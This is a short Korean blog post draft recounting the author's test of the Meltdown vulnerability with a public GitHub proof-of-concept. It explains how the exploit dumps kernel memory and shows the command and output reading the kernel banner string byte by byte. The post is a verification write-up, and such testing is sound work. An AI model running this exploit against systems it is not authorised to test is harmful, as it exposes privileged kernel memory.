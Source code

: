 ```yaml
---
author: cwyang
comments: true
date: "2018-01-09T14:29:00Z"
draft: true
tags:
- blog
- meltdown
- spectre
- security
title: Meltdown/Spectre 취약점 확인
---
```

신년 벽두를 강타하고 있는 [Meltdown/Spectre 취약점](https://meltdownattack.com/)을 직접 확인해보았다.

보안 전공이 아닌 입장에서, [논문만을 보고](https://meltdownattack.com/meltdown.pdf) 그것을 재현하기란 쉽지 않다.
그러나 시대가 시대이니만큼 github에는 이미 meltdown exploit poc 소스들이 많이 있다. 그 중 다음 소스를 가지고
작업 서버에서 테스트 를해 보기로 했다.

https://github.com/paboldin/meltdown-exploit

소스는 크게 두 부분으로 이루어져 있다

- meltdown.c: 커널주소와 길이를 받아 해당 커널주소부터 길이만큼의 메모리를 덤프하는 meltdown 공격.
- run.sh: meltdown공격을 쉽게 보여주기 위해서, 커널에 들어가 있는 `linux_proc_banner' 스트링의 주소를 찾은 후, 그 주소를 meltdown 바이너리에 넘겨주는 스크립트

meltdown.c는 `/proc/version'을 읽어들이는데, 이 경우 커널 심볼인 `linux_proc_banner'의 내용이 캐시에 로드된다. 

~~~~
 meltdown-exploit $ ./meltdown ffffffff924000a0 40
 cached = 34, uncached = 322, threshold 104
 read ffffffff924000a0 = 25 % (score=421/1000)
 read ffffffff924000a1 = 73 s (score=512/1000)
 read ffffffff924000a2 = 20   (score=540/1000)
 read ffffffff924000a3 = 76 v (score=494/1000)
 read ffffffff924000a4 = 65 e (score=120/1000)
 read ffffffff924000a5 = 72 r (score=394/1000)
 read ffffffff924000a6 = 73 s (score=344/1000)
 read ffffffff924000a7 = 69 i (score=416/1000)
 read ffffffff924000a8 = 6f o (score=469/1000)
 read ffffffff924000a9 = 6e n (score=481/1000)
 read ffffffff924000aa = 20   (score=425/1000)
 read ffffffff924000ab = 25 % (score=467/1000)
 read ffffffff924000ac = 73 s (score=428/1000)
 ...
~~~~
